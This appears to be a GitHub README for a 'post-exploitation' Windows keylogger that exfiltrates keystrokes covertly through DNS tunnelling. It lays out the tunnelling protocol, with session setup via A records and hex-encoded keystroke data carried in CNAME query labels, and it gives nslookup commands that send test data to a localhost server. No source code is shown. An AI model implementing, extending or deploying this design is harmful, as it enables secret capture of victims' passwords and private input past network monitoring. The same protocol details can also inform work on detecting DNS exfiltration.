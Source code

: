 # DNS Keylogger
This post-exploitation keylogger will automatically report a Windows computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## A Record Request
A record requests indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## CNAME Record Request
CNAME record requests indicate actual data being sent to the server.
It is in the format of `[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with NXDOMAIN.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with REFUSED.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with REFUSED.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A 1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=CNAME 1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.